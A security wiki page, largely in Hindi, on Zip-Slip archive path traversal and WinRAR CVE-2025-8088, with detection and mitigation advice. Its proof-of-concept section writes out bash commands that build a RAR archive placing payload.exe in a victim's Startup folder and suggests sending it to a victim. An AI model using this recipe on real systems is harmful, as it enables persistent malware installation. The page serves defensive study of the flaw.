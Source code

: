 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## Overview

कई आर्काइव फ़ॉर्मेट (ZIP, RAR, TAR, 7-ZIP, आदि) प्रत्येक प्रविष्टि को अपना **आंतरिक पथ** ले जाने की अनुमति देते हैं। जब एक एक्सट्रैक्शन उपयोगिता उस पथ को अंधाधुंध मानती है, तो `..` या एक **पूर्ण पथ** (जैसे `C:\Windows\System32\`) वाला एक तैयार किया गया फ़ाइल नाम उपयोगकर्ता द्वारा चुने गए निर्देशिका के बाहर लिखा जाएगा। इस प्रकार की भेद्यता को *Zip-Slip* या **आर्काइव एक्सट्रैक्शन पथ ट्रैवर्सल** के रूप में जाना जाता है।

परिणामों में मनमाने फ़ाइलों को ओवरराइट करने से लेकर **रिमोट कोड निष्पादन (RCE)** को सीधे प्राप्त करने तक शामिल है, जैसे कि Windows *Startup* फ़ोल्डर में एक पेलोड डालना।

## Root Cause

1. हमलावर एक आर्काइव बनाता है जहाँ एक या एक से अधिक फ़ाइल हेडर में शामिल हैं:
* सापेक्ष ट्रैवर्सल अनुक्रम (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
* पूर्ण पथ (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. पीड़ित एक कमजोर उपकरण के साथ आर्काइव को निकालता है जो एम्बेडेड पथ पर भरोसा करता है बजाय इसके कि उसे साफ़ करे या चुने गए निर्देशिका के नीचे निष्कर्षण को मजबूर करे।
3. फ़ाइल हमलावर-नियंत्रित स्थान में लिखी जाती है और अगली बार जब सिस्टम या उपयोगकर्ता उस पथ को ट्रिगर करता है, तो इसे निष्पादित/लोड किया जाता है।

## Real-World Example – WinRAR ≤ 7.12 (CVE-2025-8088)

Windows के लिए WinRAR (जिसमें `rar` / `unrar` CLI, DLL और पोर्टेबल स्रोत शामिल हैं) ने निष्कर्षण के दौरान फ़ाइल नामों को मान्य करने में विफलता दिखाई। एक दुर्भावनापूर्ण RAR आर्काइव जिसमें एक प्रविष्टि शामिल है:
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
**चुने गए आउटपुट निर्देशिका** के बाहर और उपयोगकर्ता के *Startup* फ़ोल्डर के अंदर समाप्त हो जाएगा। लॉगिन के बाद, Windows वहां मौजूद सभी चीज़ों को स्वचालित रूप से निष्पादित करता है, *स्थायी* RCE प्रदान करता है।

### PoC आर्काइव तैयार करना (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Options used:
* `-ep`  – फ़ाइल पथों को ठीक उसी तरह स्टोर करें जैसे दिए गए हैं (आगे के `./` को **नहीं** हटाएं)।

`evil.rar` को पीड़ित को भेजें और उन्हें इसे एक कमजोर WinRAR बिल्ड के साथ निकालने के लिए निर्देशित करें।

### Observed Exploitation in the Wild

ESET ने RomCom (Storm-0978/UNC2596) स्पीयर-फिशिंग अभियानों की रिपोर्ट की जो RAR आर्काइव को CVE-2025-8088 का दुरुपयोग करके अनुकूलित बैकडोर तैनात करने और रैनसमवेयर संचालन को सुविधाजनक बनाने के लिए संलग्न करती हैं।

## Detection Tips

* **Static inspection** – आर्काइव प्रविष्टियों की सूची बनाएं और किसी भी नाम को चिह्नित करें जिसमें `../`, `..\\`, *absolute paths* (`C:`) या गैर-मानक UTF-8/UTF-16 एन्कोडिंग शामिल हैं।
* **Sandbox extraction** – एक *safe* extractor (जैसे, Python का `patool`, 7-Zip ≥ नवीनतम, `bsdtar`) का उपयोग करके एक नष्ट करने योग्य निर्देशिका में डिकंप्रेस करें और सुनिश्चित करें कि परिणामस्वरूप पथ निर्देशिका के अंदर रहते हैं।
* **Endpoint monitoring** – WinRAR/7-Zip/etc. द्वारा एक आर्काइव खोले जाने के तुरंत बाद `Startup`/`Run` स्थानों पर लिखे गए नए निष्पादन योग्य पर अलर्ट करें।

## Mitigation & Hardening

1. **Extractor को अपडेट करें** – WinRAR 7.13 उचित पथ स्वच्छता लागू करता है। उपयोगकर्ताओं को इसे मैन्युअल रूप से डाउनलोड करना होगा क्योंकि WinRAR में ऑटो-अपडेट तंत्र की कमी है।
2. जब संभव हो, **“Ignore paths”** विकल्प (WinRAR: *Extract → "Do not extract paths"*) के साथ आर्काइव निकालें।
3. अविश्वसनीय आर्काइव को **एक सैंडबॉक्स** या VM के अंदर खोलें।
4. एप्लिकेशन व्हाइटलिस्टिंग लागू करें और उपयोगकर्ता लेखन पहुंच को ऑटो-रन निर्देशिकाओं तक सीमित करें।

## Additional Affected / Historical Cases

* 2018 – Snyk द्वारा बड़े *Zip-Slip* सलाहकार जो कई Java/Go/JS पुस्तकालयों को प्रभावित करता है।
* 2023 – 7-Zip CVE-2023-4011 के दौरान `-ao` मर्ज में समान ट्रैवर्सल।
* कोई भी कस्टम निष्कर्षण लॉजिक जो लिखने से पहले `PathCanonicalize` / `realpath` को कॉल करने में विफल रहता है।

## References

- [BleepingComputer – WinRAR zero-day exploited to plant malware on archive extraction](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Changelog](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip vulnerability write-up](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}
